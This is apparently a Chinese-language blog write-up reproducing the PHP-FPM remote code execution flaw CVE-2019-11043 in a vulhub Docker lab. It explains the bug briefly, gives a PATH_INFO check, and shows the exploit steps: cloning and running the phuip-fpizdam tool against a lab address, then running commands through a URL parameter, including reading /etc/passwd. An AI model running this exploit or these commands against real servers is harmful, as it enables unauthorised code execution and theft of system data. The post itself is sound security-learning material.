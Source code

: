```yaml
---
title: 漏洞复现-PHP-FPM 远程代码执行漏洞
description: CVE-2019-11043 从一个小的内存溢出到代码执行
author: #有默认值
date: 2024-09-10 10:13:14 +0800
categories:  [漏洞复现]
tags:  [漏洞复现,RCE]     # TAG names should always be lowercase
pin:  # 默认false，可填true
math: true
mermaid: true
# image:
#   path: /assets/bar/home.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt:  # 图片名
---
```


## 构建

``` shell
cd vulhub/php/CVE-2019-11043
docker-compose up -d 
```
cd
## 漏洞原理
https://github.com/vulhub/vulhub/blob/master/php/CVE-2019-11043/README.zh-cn.md

https://blog.orange.tw/posts/2019-10-an-analysis-and-thought-about-recently/

https://cloud.tencent.com/developer/article/1530703

这是一个非常有趣的漏洞！从一个小的内存缺陷到代码执行。它结合了二进制和网络技术，

## PoC（Proof of Concept） 验证漏洞存在的代码
作者利用了双缓冲机制，如果缓冲区到达末尾（pos > end），PHP-FPM 会创建一个新的缓冲区，并将前一个缓冲区放入结构成员 fcgi_data_seg->next 中。
若有 PHPINFO 页面。获取/info.php/%0a.php ，观察 $_SERVER['PATH_INFO'] 是否损坏！
...
影响版本：PHP 5.6-7.x，Nginx>=0.7.31
## Exp（Exploit）进行实际的攻击利用
安装漏洞利用工具,和利用
```shell
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go run . "http://your-ip:8080/index.php"
```
![](../assets/img/2024-09-10/iShot_2024-09-10_22.16.48.png)
访问http://your-ip:8080/index.php?a=id，即可查看到id命令已成功执行
![](../assets/img/2024-09-10/iShot_2024-09-10_22.15.45.png)
注意：只有部分PHP-FPM子进程受到了污染，因此请尝试几次以执行RCE命令，会出现成功执行
```shell
/index.php?a=cat /etc/passwd 
```


## 复现总结
无法直接通过url传入反弹shell命令，执行失败
